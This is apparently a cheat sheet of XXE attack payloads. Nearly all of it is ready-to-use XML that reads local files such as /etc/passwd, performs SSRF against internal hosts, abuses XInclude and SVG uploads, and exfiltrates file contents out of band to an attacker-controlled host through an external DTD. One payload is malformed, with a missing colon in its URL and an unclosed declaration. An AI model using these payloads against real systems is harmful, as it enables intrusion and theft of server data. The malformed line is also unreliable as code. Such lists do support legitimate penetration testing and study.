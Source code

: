 <h3> Payloads For XXE Vulnerability </h3>

XXE to read local files:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

XXE to SSRF

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

XXE via XInclude attacks

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

XXE via file upload

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="13" x="28" y="28">&fetch;</text>
</svg>
```

XXE parameter entities

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Blind XXE to exfiltrate data out of bound

Content of exploit.dtd:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Content of xxe payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http//web-attacker.com/exploit"> %xxe
```

```P.S This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead. ```
